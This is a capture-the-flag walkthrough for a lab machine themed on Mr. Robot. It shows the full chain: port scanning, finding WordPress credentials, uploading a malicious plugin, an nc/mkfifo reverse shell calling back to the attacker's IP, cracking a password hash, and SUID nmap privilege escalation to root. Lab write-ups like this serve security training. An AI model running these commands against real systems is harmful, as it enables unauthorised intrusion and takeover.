+++
author = "Blue Pho3nix"
title = "Mr. Robot CTF"
categories = ["thm"]
tags = [ "Medium", "Linux", "OSCP Prep" ]
image = "img/mr-robot.png"
+++


# Solution

## Finding the vulnerability


`nmap` shows open ports 80 and 443.
```bash
mkdir nmap && nmap -p- -Pn -vv 10.10.231.235 -oN nmap/10.10.231.235-ports
```


We run `-A` on the open ports.
```bash
ports=$(grep '^[0-9]' nmap/10.10.231.235-ports | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
```

```bash
nmap -A  -p $ports -vv 10.10.231.235 -oA nmap/10.10.231.235-aggressive-scan
```



We find the first key on `/robots.txt`.



We find a username and password on `/license`.
```bash
feroxbuster -u http://10.10.231.235
```





```bash
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d 
```



We use the username and password to login to `/wp-login.php`.

```txt
elliot:ER28-0652
```

---


## Foothold

We create and uploade a malicious plugin with [wordpwn.py](https://raw.githubusercontent.com/wetw0rk/malicious-wordpress-plugin/refs/heads/master/wordpwn.py).

```bash
wget https://raw.githubusercontent.com/wetw0rk/malicious-wordpress-plugin/refs/heads/master/wordpwn.py
```



```bash
python wordpwn.py 10.6.66.180 4444 10.10.231.235
```









---

We navigate to `/wp-content/plugins/malicious/SWebTheme.php?cmd=ls`.


Next, we get a reverse shell with a url encoded nc mkfifo from [www.revshells.com](https://www.revshells.com/).

```bash
rlwrap -cAr nc -lvnp 9001
```

`/wp-content/plugins/malicious/SWebTheme.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.6.66.180%209001%20%3E%2Ftmp%2Ff`




---

## Privilege Escalation

We upgrade our shell.

**1.**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**2.**

CTRL + Z

**3.**
```bash
stty raw -echo;fg
```

**4.** 

[Enter] <br>
[Enter]




We find a user `robot` and a password file we can read.

```bash
ls /home/
```

```bash
cd /home/robot
```

```bash
ls -la
```





We crack the password hash.
```bash
hashcat -m 0 hash /usr/share/wordlists/rockyou.txt
```




```bash
robot:abcdefghijklmnopqrstuvwxyz
```

We su into the `robot` user and get the second flag.

```bash
su robot
password: abcdefghijklmnopqrstuvwxyz
```

```bash
cat key-2-of-3.txt
```



We find `nmap` with `SUID` privileges. 

```bash
find / -type f -perm -4000  2>/dev/null
```

We use [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#shell) to get root and the last flag.

```bash
nmap --interactive
```

```bash
!sh
```

```bash
cd /root
```

```bash
cat key-3-of-3.txt
```




